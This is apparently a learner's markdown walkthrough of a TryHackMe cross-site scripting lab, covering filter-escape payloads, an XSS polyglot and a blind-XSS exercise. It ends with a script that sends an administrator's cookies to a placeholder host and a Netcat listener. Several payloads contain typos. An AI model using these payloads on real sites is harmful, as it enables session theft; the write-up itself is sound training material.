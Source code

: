 ```yaml
---
layout: single
title: "THM Exploits #3 Cross-Site Scripting"
---
```


#### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: SSRF (Server-Side Request Forgery) 
<br>
### Perfecting your payload

#### Level 1: Payload in input form 

In the first exercise, we see an input form that prompts to enter our name. Doing that, we get an error message, 'XSS Payload Failed'.
![](Screenshot%202023-09-22%20at%2018.40.37.png)


We can put in 
```Javascript
<script>ale4rt('THM');</script>
```
in the form: 
![](Screenshot%202023-09-22%20at%2018.41.25.png)

Which will give us this pop-up.

![](Screenshot%202023-09-22%20at%2018.41.42.png)


Checking the page source, we can see the JavaScript code was successfully injected.

![](Screenshot%202023-09-22%20at%2018.46.35.png)

---
#### Level 2: Escaping input tag

This time, the form looks a bit different. Once inputting the name, it is reflected in the input tag. 
![](Screenshot%202023-09-22%20at%2018.47.20.png)

This can be confirmed by checking the page source.

![](Screenshot%202023-09-22%20at%2018.48.20.png)

The previous JS payload won't work in the input tag. Instead, we can use the following: 

```Javascript
">script>alert('THM');</script>
```

The `">` at the front will close the value parameter and then close the input tag. Closing the input tag will allow the payload to run.

![](Screenshot%202023-09-22%20at%2018.50.20.png)

The payload runs and we get the alert. 

![](Screenshot%202023-09-22%20at%2018.51.46.png)

---
#### Level 3: Payload in textarea tag

At this stage, the name is reflected in the textarea tag. Again, this can be confirmed by viewing the page source.
![](Screenshot%202023-09-22%20at%2018.54.23.png)
![](Screenshot%202023-09-22%20at%2018.54.06.png)


We'll have to escape the textarea tag a little differently from level 2 by using the following payload: 

```Javascript
</textarea><script>alert('THM');</script>`. 
```

The `</textarea>` portion of the payload causes the textarea element to close so the script will run.
`
![](Screenshot%202023-09-22%20at%2018.55.40.png)

Success!

![](Screenshot%202023-09-22%20at%2018.56.21.png)

Check the page source to confim the changes.

#### Level 4: Escaping JS code

At this stage, the interface looks similar to level 1 but the page source reveals that the name is reflected in some JavaScript code. 

![](Screenshot%202023-09-22%20at%2018.58.14.png)

You'll have to escape the existing JavaScript command with the following payload: 
```Javascript
';alert('THM');//
```

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

We get the alert, and the page source reveals our payload has been executed. 

![](Screenshot%202023-09-22%20at%2019.01.10.png)

---

#### Level 5: Escaping string filters

Level 5 looks similar to level 2 on the surface. However, executing `<script>alert('THM');</script>` doesn't work. Let's look at the page source to figure out why.

![](Screenshot%202023-09-22%20at%2019.04.04.png)

The word 'script' has disappeared due to filters. Alternatively, we can use the following payload to escape these filters: 

```JavaScript
<sscriptcript>alert('THM');</sscriptcript>
```

The word 'script' squeezed into the middle will be filtered out once, leaving the first 's' and the following 'script' to form and execute the payload. 

The resulting page source shows it worked: 

![](Screenshot%202023-09-22%20at%2019.06.25.png)

---

#### Level 6: Escaping IMG tag
![](Screenshot%202023-09-22%20at%2019.07.24.png)

Level 6 seems similar to level 2, where we had to escape from the value attribute of an input tag, so we can try `"><script>alert('THM');</script>` .
But that doesn't seem to work. Let's inspect the page source to see why. 
 
![](Screenshot%202023-09-22%20at%2019.10.27.png)

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the ==**onload event**==. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

```JavaScript
/images/cat.jpg" onload="alert('THM')
```

And then viewing the page source, and you'll see how this will work.

![](Screenshot%202023-09-22%20at%2019.13.53.png)
![](Screenshot%202023-09-22%20at%2019.14.10.png)


#### XSS Polyglots

**Polyglots:**
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```




---

#### All payloads from exercises

Original payload
<script>alert('THM');</script>

Escaping input tag
"><script>alert('THM');</script>

Escaping textarea tag
</textarea><script>alert('THM');</script> 

Escaping JS code
';alert('THM');//

Escaping filters
<sscriptcript>alert('THM');</sscriptcript>

Escaping img tag & using onload event
/images/cat.jpg" onload="alert('THM');

---
### Practical Example (Blind XSS) 

In this exercise, we are tasked to inject JavaScript code into the contents of an IT Support ticket. Once the administrator opens the ticket to view it, the code will execute and send their cookie session info back to us, revealing login information and allowing us to escalate privileges.

**1. Test stage**
	So we've made a (fake) customer account on the Acme IT Support website. Under the 'Support Tickets' tab, we can create tickets. Here is a test run: 
 ![](Screenshot%202023-09-23%20at%2015.32.47.png)
 Because our input is shown in the textarea, let's see if we can escape this like we did in level 3 of 'Perfecting Your Payload'. We can use the payload `</textarea>test`. </textarea> wil help us escape the textarea tag. 
 
![](Screenshot%202023-09-23%20at%2015.32.30.png)

It worked. 
Now let's try this again to prompt an alert message. The payload is `</textarea><script>alert('THM');</script>.
`
![](Screenshot%202023-09-23%20at%2015.35.17.png)


**2. The Attack** 

Now, let's try to steal the administrator's session cookies by injecting JavaScript code.
First, we're going to set up a callback. Let's open a Netcat server listening on port 9001 to receive the cookies. 

If we want to listen on port 8000, issue the command`nc -l -p 9001`.
- `-l`  indicates that we want to use Netcat in listen mode
- `-p`  is used to specify the port number.
- `-n` to avoid the resolution of hostnames via DNS,
- moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended.
- The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![](Screenshot%202023-09-23%20at%2015.35.53.png)![]

Now, let's inject our payload into the ticket. The payload we'll use is: 

```Javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.


![](Screenshot%202023-09-23%20at%2016.00.31.png)


Once submitted, the listening server will put out the stolen cookies. Shown below is that output and the base64 decoding of the cookie using the echo command.

![](Screenshot%202023-09-23%20at%2015.58.21.png)